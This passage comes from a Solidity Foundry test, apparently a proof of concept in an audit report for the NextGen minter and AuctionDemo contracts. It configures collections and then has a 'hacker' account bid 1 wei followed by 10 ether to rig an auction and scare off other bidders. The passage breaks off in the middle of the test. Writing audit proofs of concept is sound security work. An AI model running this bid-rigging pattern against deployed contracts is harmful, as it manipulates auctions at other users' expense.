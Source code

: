 ```solidity
        nextGenMinterContract.setCollectionPhases(
          1, // _collectionID
          201, // _allowlistStartTime
          400, // _allowlistEndTime
          401, // _publicStartTime
          2000, // _publicEndTime
          merkleRoot // _merkleRoot
        );

        /// INFO: Set up collection 2 playing the role of the burn collection
        nextGenCore.setCollectionData(2, collectionAdmin, 2, 10000, 1000);
        nextGenMinterContract.setCollectionCosts(
          2, // _collectionID
          1 ether, // _collectionMintCost 1 eth
          0, // _collectionEndMintCost 0.1 eth
          10, // _rate
          20, // _timePeriod
          3, // _salesOptions
          delAddress // delAddress
        );
        
        nextGenMinterContract.setCollectionPhases(
          2, // _collectionID
          21, // _allowlistStartTime
          100, // _allowlistEndTime
          200, // _publicStartTime
          500, // _publicEndTime
          merkleRoot // _merkleRoot
        );
        vm.stopPrank();

        /// INFO: intilialize burn
        vm.startPrank(globalAdmin);
        nextGenMinterContract.initializeBurn(2, 1, true);
        vm.stopPrank();

        /// INFO: Deploy AuctionDemo contract and approve contract to transfer NFTs
        vm.startPrank(auctionNftOwner);
        aDemo = new auctionDemo(address(nextGenMinterContract), address(nextGenCore), address(nextGenAdmins));
        nextGenCore.setApprovalForAll(address(aDemo), true);
        vm.stopPrank();
    }


    function test_RigAuctionDemo() public {
      /// INFO: Set up Auction Demo contract
      skip(401);
      vm.startPrank(globalAdmin);
      string memory tokenData = "{'tdh': '100'}";
      nextGenMinterContract.mintAndAuction(auctionNftOwner, tokenData, 2, 1, 500);
      vm.stopPrank();

      vm.startPrank(hacker);
      vm.deal(hacker, 11 ether);
      aDemo.participateToAuction{value: 1}(10_000_000_000);
      console.log("First 1 WEI bid: ", aDemo.returnHighestBid(10_000_000_000));
      console.log("Address of highest bidder: ", aDemo.returnHighestBidder(10_000_000_000));

      /// INFO: Malicious actor bids an astronomical amount for the NFT in order to deter all other participants from entering the auction
      aDemo.participateToAuction{value: 10 ether}(10_000_000_000);
      console.log("Bid 10 ETH: ", aDemo.returnHighestBid(10_000_000_000));
```
